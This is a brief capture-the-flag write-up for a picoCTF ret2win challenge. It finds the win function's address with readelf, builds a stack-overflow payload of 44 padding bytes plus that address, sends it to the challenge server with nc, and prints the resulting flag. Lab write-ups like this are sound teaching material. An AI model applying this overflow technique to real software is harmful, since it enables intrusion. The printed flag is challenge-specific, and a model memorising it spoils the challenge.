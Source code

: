# Objective is a "RET2WIN".

##### Locate "WIN"-function address:
└─$ readelf -s vuln | grep win
    63: 080491f6   139 FUNC    GLOBAL DEFAULT   13 win

### Create payload to jump to win fnc:
└─$ python2 -c "print('A' * 44 + '\xf6\x91\x04\x08')" > payload

### final payload:
└─$ nc saturn.picoctf.net 57667 < payload
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_0195a40f}